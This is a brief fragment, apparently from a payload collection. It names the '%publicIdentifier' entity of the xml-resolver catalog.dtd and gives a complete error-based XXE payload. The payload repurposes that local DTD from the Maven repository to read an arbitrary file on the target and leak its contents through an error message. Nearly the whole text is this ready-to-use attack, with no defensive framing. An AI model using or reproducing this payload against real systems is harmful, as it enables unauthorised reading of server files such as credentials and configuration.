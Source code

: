 **Injectable entity:** `%publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/xml-resolver/xml-resolver/1.2/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 
